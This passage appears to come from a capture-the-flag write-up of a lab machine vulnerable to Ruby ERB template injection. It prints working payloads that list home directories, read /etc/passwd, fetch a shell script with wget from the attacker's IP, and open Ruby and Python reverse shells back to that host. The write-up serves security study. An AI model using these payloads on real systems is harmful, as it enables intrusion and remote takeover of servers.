 ![](./IMG/9.png)
- Let's check the file under home to confirm user name.
- Here are 2 directories
    - henry 
    - Ruby
```
http://10.10.16.26:9797/aaa.html<%= `ls /home` %>
```

![](./IMG/10.png)
- I tried multiple command(include check passwd file and upload shell file by wget.)
- check passwd file
```
http://10.10.16.26:9797/aaa.html<%= system('cat /etc/passwd') %>
```
- Upload file by wget
```
http://10.10.16.26:9797/aaa.html<%= `wget http://10.10.16.26:9797/shell.sh -P /tmp/shell.sh` %>
```
- But I can't execute the shell by SSTI.
- So, I also try upload ruby reverse shell file, and directly execute ruby reverse shell
- Ruby reverse shell command directly, but this only only create a reverse shell in a short time.
```
http://10.10.16.26:9797/aaa.html<%= `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.16.26","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' ` %>
```
- After try different reverse shell, I found python is ok.
```
http://10.10.16.26:9797/aaa.html<%= `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.26",1336));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` %>
```

![](./IMG/11.png)
- After get reverse shell, I just got user - ruby, it's limitation.

